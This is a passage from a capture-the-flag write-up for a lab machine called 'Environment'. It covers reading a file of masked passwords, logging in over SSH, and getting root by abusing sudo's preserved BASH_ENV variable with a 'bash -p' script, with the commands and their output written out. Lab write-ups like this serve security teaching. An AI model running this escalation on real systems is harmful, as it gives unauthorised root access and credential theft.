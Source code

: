 After decrypting the file, I read the `message.txt` file and found a list of passwords.

```bash
www-data@environment:/tmp$ cat message.txt
PAYPAL.COM -> IhaXXXXXXXXXXXXXXXXXX
ENVIRONMENT.HTB -> marinXXXXXXXXXXXXX   // password !!!
FACEBOOK.COM -> summXXXXXXXXXXXXXX
```

The password for `ENVIRONMENT.HTB` was **`marXXXXXXXXXXXXXXX`**. I used this password to log in via SSH as the user `hish`.

-----

### 👑 Privilege Escalation to `root`

The final step was to escalate from `hish` to `root`. I started by checking `hish`'s `sudo` permissions.

```bash
hish@environment:~$ sudo -l
[sudo] password for hish:
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty
User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

The output shows that `hish` can run `/usr/bin/systeminfo` as `root` without a password. Crucially, the `env_keep+="ENV BASH_ENV"` line tells us that the `ENV` and `BASH_ENV` environment variables are preserved when running `sudo`.

This is a classic privilege escalation vector. By setting `BASH_ENV` to a shell script, we can force Bash to execute commands from that script before running `/usr/bin/systeminfo`.

I created a script named `exp.sh` in my home directory with the following content:

```bash
echo 'bash -p' > exp.sh
chmod +x exp.sh
```

The `bash -p` command runs Bash in "privileged" mode, which prevents it from dropping the effective UID to the real UID, allowing it to maintain `root` privileges.

Finally, I executed the `sudo` command with the `BASH_ENV` variable set to my script.

```bash
hish@environment:~$ sudo BASH_ENV=./exp.sh /usr/bin/systeminfo
root@environment:/home/hish# id
uid=0(root) gid=0(root) groups=0(root)
```

I was now `root` and could read the final flag.

```bash
root@environment:/home/hish# cat /root/root.txt
943dd249259dxxxxxxxxxxxx
```
